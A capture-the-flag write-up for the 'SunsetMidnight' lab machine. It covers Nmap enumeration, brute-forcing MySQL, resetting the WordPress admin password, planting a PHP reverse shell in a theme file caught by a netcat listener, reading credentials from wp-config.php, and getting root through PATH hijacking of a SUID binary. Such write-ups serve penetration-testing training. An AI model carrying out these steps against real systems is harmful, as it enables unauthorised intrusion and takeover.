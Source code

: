 # PG Play - SunsetMidnight

#### Ip: 192.168.180.88
#### Name: SunsetMidnight
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ sudo nmap -p-  --min-rate 10000 192.168.180.88 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 11:03 CDT
Nmap scan report for 192.168.180.88
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SupportsCompression, ConnectWithDatabase, SupportsTransactions, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, IgnoreSigpipes, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: RNm[`PQ&dJ$q1=|}~$4t
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds
```

We can see from the Nmap results the site on port 80 is redirecting to http://sunset-midnight/, so lets go ahead and add that to our `/etc/hosts` file.

Now heading to the website we see it is running WordPress.

![site.png](../assets/sunsetmidnight_assets/site.png)

After enumerating HTTP for a bit and nit finding much, I decided to kick off password bruteforcing against Mysql on port 3306 using Hydra:

![brute.png](../assets/sunsetmidnight_assets/brute.png)

Cool, Hydra found a working password. Lets login to the database with this:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ mysql -h 192.168.180.88 -u root -probert
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 214
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.082 sec)
```

After looking through the DB and not finding much of interest (I was unable to crack the Admin password) I decided to change the Admin password:

```text
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = MD5('password') WHERE wp_users.user_login = "admin";;
Query OK, 1 row affected (0.069 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

We can now head to http://sunset-midnight/wp-admin/ and login to the WordPress site with admin:password.

![login.png](../assets/sunsetmidnight_assets/login.png)

### Exploitation

From here lets grab a copy of PentestMonkey's php-reverse-shell.php and overwrite a theme on the WP site.

First we'll need to update the IP and port fields with our correct information:

![php.png](../assets/sunsetmidnight_assets/php.png)

Then changing the theme to twentynineteen, I copied the malicious PHP code into the header.php file, and with a NetCat listener going navigating back to http://sunset-midnight to trigger the shell:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.180.88] 35938
Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 13:12:09 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
midnight
```

From here I can grab the local.txt flag:

![user_flag.png](../assets/sunsetmidnight_assets/user_flag.png)

### Privilege Escalation

Taking a look in `/var/www/html/wordpress` we can access the wp-config.php file, which has Jose's password:

![cred.png](../assets/sunsetmidnight_assets/cred.png)

We can use this to `su jose` on the target:

```text
www-data@midnight:/var/www/html/wordpress$ su jose
Password: 
jose@midnight:/var/www/html/wordpress$ whoami
jose
```

From here I'll transfer over LinPEAS to help with enumerating a privilege escalation vector:

![transfer.png](../assets/sunsetmidnight_assets/transfer.png)

LinPEAS finds an interesting file with the SUID bit enabled:

![lp.png](../assets/sunsetmidnight_assets/lp.png)

Looks like the file is an executable:

```text
jose@midnight:/tmp$ file /usr/bin/status
/usr/bin/status: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b60ab071f1d8a6295eedb7f6815e957f2936171, not stripped
```

Using strings we find that the executable is calling service but not using the absolute path. If we create our own service file and update the PATH, we may be able to exploit this:

```text
jose@midnight:/tmp$ touch service
jose@midnight:/tmp$ echo "/bin/sh" > service
jose@midnight:/tmp$ chmod +x ./service
jose@midnight:/tmp$ PATH=/tmp:$PATH
jose@midnight:/tmp$ /usr/bin/status
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)
```

Nice, that worked!

Now lets grab the final flag:

![root_flag.png](../assets/sunsetmidnight_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------
